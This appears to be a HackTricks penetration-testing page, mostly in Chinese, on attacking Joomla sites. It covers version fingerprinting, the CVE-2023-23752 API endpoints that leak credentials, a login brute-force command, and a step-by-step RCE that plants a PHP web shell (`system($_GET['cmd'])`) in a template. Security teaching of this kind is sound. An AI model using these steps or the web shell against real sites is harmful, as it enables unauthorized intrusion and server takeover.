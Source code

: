 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Joomla 统计

Joomla 收集一些匿名的 [使用统计数据](https://developer.joomla.org/about/stats.html)，例如 Joomla、PHP 和数据库版本以及在 Joomla 安装中使用的服务器操作系统的细分。这些数据可以通过他们的公共 [API](https://developer.joomla.org/about/stats/api.html) 查询。
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* 检查 **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### 版本

* 在 **/administrator/manifests/files/joomla.xml** 中可以看到版本。
* 在 **/language/en-GB/en-GB.xml** 中可以获取 Joomla 的版本。
* 在 **plugins/system/cache/cache.xml** 中可以看到一个大致的版本。

### 自动
```bash
droopescan scan joomla --url http://joomla-site.local/
```
在[ **80,443 - Pentesting Web Methodology 是关于 CMS 扫描器的一个部分**](./#cms-scanners)，可以扫描 Joomla。

### API 未经身份验证的信息泄露：

版本从 4.0.0 到 4.2.7 存在未经身份验证的信息泄露漏洞 (CVE-2023-23752)，将泄露凭据和其他信息。

* 用户: `http://<host>/api/v1/users?public=true`
* 配置文件: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF 模块**: `scanner/http/joomla_api_improper_access_checks` 或 ruby 脚本: [51334](https://www.exploit-db.com/exploits/51334)

### 暴力破解

您可以使用这个 [脚本](https://github.com/ajnik/joomla-bruteforce) 尝试进行登录暴力破解。
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

如果你成功获取了 **admin credentials**，你可以通过向 **模板** 添加一段 **PHP 代码** 来 **RCE**。我们可以通过 **自定义** 一个 **模板** 来实现。

1. **点击** 左下角的 **`Templates`** 在 `Configuration` 下拉出模板菜单。
2. **点击** 一个 **模板** 名称。我们选择 **`protostar`** 在 `Template` 列标题下。这将带我们到 **`Templates: Customise`** 页面。
3. 最后，你可以点击一个页面以拉出 **页面源代码**。我们选择 **`error.php`** 页面。我们将添加一个 **PHP 一行代码以获得代码执行**，如下所示：
1. **`system($_GET['cmd']);`**
4. **保存并关闭**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## 从 XSS 到 RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit)：Joomla 利用脚本，可以 **将 XSS 升级为 RCE 或其他关键漏洞**。更多信息请查看 [**这篇文章**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html)。它支持 **Joomla 版本 5.X.X、4.X.X 和 3.X.X，并允许：**
* _**权限提升：**_ 在 Joomla 中创建用户。
* _**(RCE) 内置模板编辑：**_ 编辑 Joomla 中的内置模板。
* _**(自定义) 自定义利用：**_ 针对第三方 Joomla 插件的自定义利用。

{% hint style="success" %}
学习和实践 AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
